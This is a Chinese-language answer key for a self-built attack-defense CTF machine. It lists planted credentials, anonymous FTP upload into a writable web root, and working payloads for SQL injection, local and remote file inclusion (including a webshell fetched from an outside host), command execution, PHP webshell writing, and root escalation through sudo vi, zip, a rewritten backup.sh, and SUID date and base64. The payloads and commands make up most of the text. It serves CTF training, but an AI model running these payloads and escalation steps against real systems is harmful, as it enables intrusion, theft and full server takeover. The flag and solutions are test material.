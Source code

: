# AWD 模式攻击

## 凭证信息 (Credentials)

###### PS: (密码不是加密后的 hash ，用 hash 做的密码)
-   **Linux Root 用户:**
    ```
    T1: root:$1$DcI4hlB5$7Fzb9WR6XrBFwjHgBcpA61
    T2: root:$1$zu5fqmiV$hRUIt5Hp0LQwlBSDC5XuA0
    ```
-   **MySQL Root 用户:**
    ```
    T1: root:$1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    T2: root:$1$xDRC88E9$NuBtIeH1q2Xndltvfk0Wu0
    ```
-   **Linux welcome 用户:**
    ```
    T1: welcome:welcome
    T2: welcome:welcome
    ```
-   **WEB admin 用户:**
    ```
    T1: admin:babygirl94andrew10
    T2: admin:jeanjeandianacarolina
    ```
## FTP 服务

-   允许匿名登录。
-   可以访问服务器根目录 (`/`)。
-   允许上传文件。

## Web 目录权限 (`/var/www/html/`)

-   权限设置为 `777` (可读、可写、可执行)。
-   **利用方式:** 结合 FTP 匿名上传权限，可以直接上传 PHP Webshell (例如 `shell.php`) 到 Web 根目录，实现远程代码执行 (RCE)。

## Web robots.txt 文件
-   **提示信息:** 在 `robots.txt` 文件中可以找到以下内容：
    ```
    User-agent: *
    Disallow: /xxxxx
    ```
    之后你可以看到
    ```
    噢，防止我忘记密码，我把密码放在这里一份

    pw: xxxxxxxx
    ```
    xxxxxxxx 将是 admin 用户的密码

## Web PHP 代码漏洞
-   login.php: SQL 注入漏洞
```
POST /login.php
username=admin' -- -&password=anything
```

-   dashboard.php: 文件上传漏洞
```
POST /dashboard.php HTTP/1.1
这里是没有检查文件类型，并且可以执行上传的 php 代码。 
```

-   game.php: LFI 漏洞
```
/games.php?game=../../etc/passwd 
/games.php?game=php://filter/convert.base64-encode/resource=config.php
结合 php://filter-chains 技术可实现 RCE /games.php?game=(php://filter-chains链)
推荐项目: 
https://github.com/synacktiv/php_filter_chain_generator.git
https://github.com/DingTom23/php-reverse-chains.git
```

-   ball.php: RCE 漏洞
```
/ball.php?debug=1&cmd=id
```

-   memory.php: Remote LFI 漏洞
```
/memory.php?theme=http://youraddress/webshell.php
```

-   puzzle.php: SQL 注入漏洞
```
/puzzle.php?check_username=admin' OR '1'='1
/puzzle.php?check_username=admin' UNION SELECT 1,2,3,4,5,6 FROM information_schema.tables WHERE '1'='1
```

-   snake.php: 文件读写漏洞
```
读取文件: /snake.php?admin=super&file=/etc/passwd
写入文件: 
POST /snake.php?admin=super
Content-Type: application/x-www-form-urlencoded

filename=shell.php&content=<?php system($_GET['cmd']); ?>
```

-   typing.php: PHP伪协议漏洞
```
/typing.php?load_wordlist=php://filter/convert.base64-encode/resource=config.php
```

## `welcome` 用户密码复用

-   `welcome` 用户的 Linux 登录密码与其用户名相同，均为 `welcome`。
-   **提示信息:** 在 `/home/welcome/note.txt` 文件中可以找到以下内容：
    ```
    From root@localhost:

        朋友，你的密码太弱了，一旦知道你的用户名，不久知道密码了吗？

                        To welcome@localhost
    ```
    这暗示了 `welcome` 用户名和密码相同。

## /home/welcome/.bash_history 文件
-   `welcome` 用户的 Bash 历史记录文件 (`/home/welcome/.bash_history`) 中包含了一些敏感信息。
-   **提示信息:** 在 `/home/welcome/.bash_history` 文件中可以找到以下内容：
    ```
    su -
    $1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    ```
    
## Sudo 滥用
-   www-data 用户:
```bash
root@dmsy-awd:~# sudo -u www-data sudo -l
Matching Defaults entries for www-data on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dmsy-awd:
    (welcome) NOPASSWD: /usr/bin/vi
```
    可以 !bash 提权

-   welcome 用户:
```bash
root@dmsy-awd:~# sudo -u welcome sudo -l
[sudo] password for welcome: 
Matching Defaults entries for welcome on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on dmsy-awd:
    (ALL) PASSWD: /home/*/backup.sh, /bin/zip
```
#### 提权路径
```bash
welcome@dmsy-awd:~$ mv backup.sh backup.sh.bak
welcome@dmsy-awd:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > backup.sh
welcome@dmsy-awd:~$ chmod +x backup.sh
welcome@dmsy-awd:~$ ls -la /tmp/bash 
-rwsr-sr-x 1 root root 1168776 Apr 23 10:43 /tmp/bash
welcome@dmsy-awd:~$ /tmp/bash -p
bash-5.0# id
uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)

welcome@dmsy-awd:~$ TF=$(mktemp -u)
welcome@dmsy-awd:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID 提权
-   查找 SUID 可执行文件:

```bash
welcome@dmsy-awd:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/date
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/base64
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
-  发现 data 和 base64 有 SUID 权限 

```bash
welcome@dmsy-awd:~$ LFILE=/root/root.txt
welcome@dmsy-awd:~$ date -f $LFILE
date: invalid date ‘flag{1998cbf9-1f88-11f0-a369-000c29094b2d}’

welcome@dmsy-awd:~$ base64 "$LFILE" | base64 -d
flag{1998cbf9-1f88-11f0-a369-000c29094b2d}
```

#### 后记
我靠，累死了，markdown 手写的，服务全部手搓。
幸好有伟大的 claude 给我写 php 代码，要不然我就死在这了。
要不然真的累死在这了。